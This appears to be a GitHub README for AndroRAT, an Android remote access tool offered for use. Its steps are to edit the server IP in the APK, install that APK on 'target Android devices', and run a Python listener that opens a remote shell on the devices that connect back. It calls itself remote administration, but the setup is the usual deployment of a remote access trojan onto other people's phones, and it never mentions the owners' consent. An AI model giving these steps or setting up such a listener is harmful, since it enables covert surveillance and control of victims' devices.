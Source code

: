 # AndroRAT - Enhanced Android Remote Administration Tool

A simpler version of the original AndroRAT script for remote administration of Android devices.

## How to Use

Follow these steps to set up and use AndroRAT:

### Step 1: Edit IP Address

Using an APK editor, modify the IP address in the AndroRAT APK file located in release folder file to match your own server's IP.

### Step 2: Install Edited APK

Install the edited AndroRAT APK file on the target Android devices that you want to administer remotely.

### Step 3: Run Python Server Script

Run the Python server script on your server using either a terminal or Termux for Android devices. This script will handle the communication between the target devices and your server.

```bash
python androRAT.py --shell -i 0.0.0.0 -p [port base on the edited apk file]

```

### 𝗛𝗲𝗹𝗽 𝗖𝗼𝗺𝗺𝗮𝗻𝗱

```bash
python androRAT.py --help

